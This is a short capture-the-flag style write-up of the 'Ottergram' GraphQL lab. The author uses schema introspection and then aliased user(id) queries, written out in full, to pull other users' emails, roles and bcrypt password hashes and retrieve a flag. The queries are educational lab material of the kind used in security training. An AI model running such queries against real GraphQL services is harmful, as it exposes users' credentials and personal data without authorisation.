







OSCP · OSWP · PWPP · PWPA · PAPA · EnCE · Linux+ · LPIC-1 · Network+ · Security+ · Pentest+ · eJPT · eWPT · BSc · PGCert
Ottergram (GraphQL)
Lab can be found at: https://bugforge.io

I registered an account and landed on the homepage:

After clicking the “settings” cog wheel in the top right, I saw a POST request to /graphql in burp:

From here, I could use introspection to look at what fields were available:
{"query":"{ __schema { types { name kind fields { name type { name kind ofType { name kind } } } } } }"}
I could see that user’s contained: role, email, password etc all of the usual things you’d expect. So now, I had to see if I could pull back other user’s passwords:
{"query":"{ u1: user(id: 1) { id username email password role } }"}
I could see user 1 (otter_lover) and his bcrypt encrypted password. Now, user 2. And now, I had the flag:

I could also look at all users with the following query:
{"query":"{ u1: user(id: 1) { id username email password role } u2: user(id: 2) { id username email password role } u3: user(id: 3) { id username email password role } u4: user(id: 4) { id username email password role } }"}
Thanks for following along!
🍺 Quick message to readers: if my writeups help you, please consider a small donation to my buymeacoffee link here. This is not required but is very much appreciated! 🍺